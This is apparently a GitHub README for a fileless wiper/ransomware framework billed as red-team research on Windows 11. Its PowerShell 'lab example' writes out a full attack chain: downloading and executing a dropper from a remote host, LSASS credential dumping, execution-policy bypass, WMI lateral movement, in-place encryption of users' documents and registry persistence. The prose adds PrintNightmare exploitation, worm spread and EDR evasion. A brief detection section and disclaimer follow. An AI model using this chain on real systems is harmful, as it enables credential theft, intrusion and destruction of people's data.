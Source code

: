 
# 🚩 Overview

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a cutting-edge red/purple team research initiative that simulates a **fileless and polymorphic malware** framework, purpose-built for **Windows 11** environments. This project highlights the real-world feasibility of advanced cyberattacks that operate solely in memory and weaponize native system binaries (LOLBins), leaving minimal forensic traces. Drawing inspiration from NotPetya-class threats, NSFW demonstrates how adversaries can exploit Windows **print spooler services** for stealthy lateral movement and privilege escalation. The framework is designed not only to emulate sophisticated adversary actions, but also to support defender education in modern detection and mitigation strategies.

---

This repository enables simulation of a realistic adversary kill chain using MITRE ATT&CK techniques, emphasizing complete fileless operation and stealth.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```

---

### 🧠 Core Concepts

#### **Net Sharing (Initial Access & Wormability)**

* Leverages Windows print and file sharing through `net.exe`, `net use`, and other LOLBins.
* Automates exploitation of **PrintNightmare** and **HiveNightmare** vulnerabilities (`CVE-2021-34527`, `CVE-2021-36934`) for privilege escalation and worm-like propagation.
* Supports both Metasploit-driven attacks (`exploit/windows/printnightmare`) and custom PowerShell/WMI remote execution.

#### **Fileless Execution (Stealth & Evasion)**

* Executes all payloads directly in memory using trusted system binaries:
  * `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `cmdkey.exe`, `wmic.exe`
* Minimizes disk writes to thwart forensic analysis and evade AV/EDR detection.
* Delivers shellcode through phishing attachments such as `.jpg`, `.lnk`, or `.ps1` files.

#### **Wiper Logic (Final Stage Payload)**

* Emulates ransomware behavior but with a focus on **destruction rather than extortion**.
* Employs **DiskCryptor-based encryption**.
* Can optionally print ransom notes via Windows printer services for realism.

---

### 🧩 Attack Flow Overview

1. **Initial Access** – Spear phishing with embedded `.jpg` or `.lnk` files.
2. **Exploit** – Abuse of Print Spooler or Registry CVEs for escalation.
3. **Lateral Movement** – Network spreading via `net use`, WMI, or PowerShell remoting.
4. **Persistence** – Scheduled tasks or registry keys using LOLBins for stealth.
5. **Payload Execution** – In-memory DLL or shellcode injection (Donut/sRDI).
6. **Impact** – NTFS metadata destruction, ransom notes deployment, and system disruption.

---

### 🎯 Objectives

| Red Team (Adversary Simulation)         | Blue Team (Defender Insight)                 |
| --------------------------------------- | -------------------------------------------- |
| Demonstrate AV/EDR evasion with LOLBins | Tune threat hunting based on ATT&CK mapping  |
| Trigger controlled system failure       | Apply Sigma/Sysmon for real-time monitoring  |

---

### 🔍 Detection & Mitigation Strategy

* Aligned with MITRE ATT&CK tactics:
  * `T1055` (Process Injection), `T1562` (Defense Evasion), `T1021` (Remote Services)
* Recommended detection sources:
  * **Sysmon**, **ELK**, **Splunk**, **Sigma Rules**
* Monitoring tips:
  * Watch for Print Spooler restarts, `rundll32`/`regsvr32` anomalies
  * Track unexpected driver or service installations
  * Monitor memory entropy and suspicious in-memory code execution

---

### ⚠️ Legal Disclaimer

All code, content, and techniques provided in this project are strictly for **educational** and **authorized penetration testing** purposes only. Usage must be confined to **isolated lab environments** with **explicit written permission**. Unauthorized use outside these parameters may violate laws and regulations.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)
